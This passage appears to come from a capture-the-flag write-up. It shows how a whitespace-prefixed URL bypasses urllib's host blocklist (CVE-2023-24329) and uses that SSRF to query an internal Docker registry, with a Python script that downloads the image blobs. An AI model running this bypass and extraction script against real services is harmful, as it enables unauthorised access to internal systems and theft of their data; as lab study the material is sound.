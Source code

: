 
### CVE-2023–24329

On giving a url like ``http://example.co`` or a malformed url we can see that a urllib error is spit out, so the backend is using urllib, Now one inspecting the response headers we can see that the python version is ``Python/3.11.3`` Now on doing a google search including urllib and python 3.11.3 we can see that there is a CVE-2023-24329 which is a urllib blocked hosts bypass using a whitespace character. So we can send the a request to `` http://registry:5000`` **Notice the whitespace character at the start**. Now we can directly talk to the internal registry API without any issues.


### The docker registry

On Sending a request to `` http://registry:5000/v2/_catalog`` we can see that there are two repositories which are there, namely ``Vec`` and ``Core`` which are the same services listed on the ``/internal`` endpoint. Now we can load in the manifest file for each of the repos and then individually download all the image blobs for each of the repos, One can easily use the docker registry API to do this, and it is well documented here [registry_api](https://distribution.github.io/distribution/spec/api/).

Here is an example script to download the blobs for the repos.

```python
# Script to download the blobs for the Vec repo
import requests

URL  = 'http://34.18.13.217:52593/okay'

# Notice the whitespace at the beginning of the URL
INTERNAL_URL = ' http://registry:5000/v2/'

# Get the name of the image
def get_image_name():
    r = requests.post(URL, data={'url': INTERNAL_URL+'_catalog'})
    print(r.json())


# Get the manifest and get the blobs
def get_blobs():
    r = requests.post(URL, data={'url': INTERNAL_URL+'vec/manifests/latest'})
    # Parse it as json
    parsed = r.json()
    fsLayers = parsed['fsLayers']
    count  = 0
    for i in fsLayers:
        blob_sum  = i['blobSum']
        dowload_path = './blobs/'+str(count)+'.tar.gz'
        r = requests.post(URL, data={'url': INTERNAL_URL+'vec/blobs/'+blob_sum})
        print(r.text)
        if(r.status_code == 200):
            with open(dowload_path,'wb') as file:
                file.write(r.content)
        count += 1 

get_blobs()
```
